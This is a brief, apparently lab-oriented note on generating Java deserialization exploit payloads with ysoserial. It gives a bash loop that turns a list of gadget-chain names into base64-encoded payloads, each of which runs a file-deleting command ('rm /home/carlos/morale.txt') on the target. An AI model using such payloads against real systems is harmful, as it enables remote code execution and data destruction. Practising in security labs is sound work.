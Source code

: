 
first you will download ysoserial
then make dir and write bash script as  :
while read payloadname;do java -jar ../ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr -d '\n' >$payloadname ;done < ../yy
then delete size 0 
